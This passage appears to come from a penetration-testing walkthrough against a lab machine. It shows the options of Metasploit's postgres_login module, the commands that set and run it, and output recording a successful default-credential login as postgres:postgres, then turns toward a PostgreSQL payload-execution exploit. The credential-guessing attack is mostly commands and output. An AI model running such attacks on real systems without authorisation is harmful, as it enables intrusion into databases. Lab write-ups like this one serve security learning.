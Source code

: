 ``` plain
   DB_ALL_CREDS      false                                                                       no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                       no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                       no        Add all users in the current database to the list
   PASSWORD                                                                                      no        A specific password to authenticate with
   PASS_FILE         /opt/metasploit/apps/pro/msf3/data/wordlists/postgres_default_pass.txt      no        File containing passwords, one per line
   RETURN_ROWSET     true                                                                        no        Set to true to see query result sets
   RHOSTS                                                                                        yes       The target address range or CIDR identifier
   RPORT             5432                                                                        yes       The target port
   STOP_ON_SUCCESS   false                                                                       yes       Stop guessing when a credential works for a host
   THREADS           1                                                                           yes       The number of concurrent threads
   USERNAME          postgres                                                                    no        A specific username to authenticate as
   USERPASS_FILE     /opt/metasploit/apps/pro/msf3/data/wordlists/postgres_default_userpass.txt  no        File containing (space-seperated) users and passwords, one pair per line
   USER_AS_PASS      false                                                                       no        Try the username as the password for all users
   USER_FILE         /opt/metasploit/apps/pro/msf3/data/wordlists/postgres_default_user.txt      no        File containing users, one per line
   VERBOSE           true                                                                        yes       Whether to print output for all attempts


msf auxiliary(postgres_login) > set RHOSTS 192.168.127.154
RHOSTS => 192.168.127.154
msf auxiliary(postgres_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(postgres_login) > run

[*] 192.168.127.154:5432 Postgres - [01/20] - Trying username:'postgres' with password:'postgres' on database 'template1'
[+] 192.168.127.154:5432 Postgres - Logged in to 'template1' with 'postgres':'postgres'
[+] 192.168.127.154:5432 Postgres - Success: postgres:postgres (Database 'template1' succeeded.)
[*] 192.168.127.154:5432 Postgres - Disconnected
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
So it's possible to log in to this database like earlier with mysql, but I searched through Metasploit's available exploits, and I stumbled upon one that can further the exploitation:

**PostgreSQL for Linux Payload Execution**
